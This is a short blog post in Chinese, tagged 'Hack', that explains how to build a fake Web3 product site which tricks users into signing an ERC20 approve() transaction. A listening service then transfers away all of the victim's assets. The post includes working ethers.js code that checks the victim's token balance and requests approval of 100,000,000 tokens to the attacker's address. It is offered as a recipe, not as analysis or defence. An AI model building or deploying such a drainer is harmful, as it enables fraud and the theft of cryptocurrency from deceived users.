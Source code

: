 #+TITLE: 如何通过Approve函数制作一个简单的Web3钓鱼网站
#+KEYWORDS: Hack, dapp, web3, erc20
#+DESCRIPTION: How to make a fishing dapp by Approve Event
#+HTML_LINK_HOME: /blog

** 原理解析

制作一个虚假的产品网站, 引导用户使用现有的主流ERC20货币兑换领取首发ERC20货币,
实际上是执行的是Approve函数,
Approve函数的是授权使用当前帐号, 即可以执行Transfer这样的危险操作

用户一旦授权通过, 监听服务就会查询该帐号下面的资产, 然后全部转移


** JS代码

#+BEGIN_SRC javascript
  const token = '' // ERC20
  const abi = {} // ERC20 ABI
  const address = '' // your account address

  const provider = new ethers.providers.Web3Provider(window.ethereum)
  const signer = provider.getSigner()

  const contract = new ethers.Contract(token, abi, provider);
  const contractWithSigner = contract.connect(signer)

  let balance = await contract.balanceOf(account)
  balance = ethers.utils.formatUnits(balance)

  if (balance > 0.01) {
    const tx = await contractWithSigner.approve(
      address,
      ethers.utils.parseEther('100000000'),
      {
	gasLimit: 60000,
	gasPrice: ethers.utils.parseUnits('6.5', 'gwei')
      }
    )
  }  
#+END_SRC

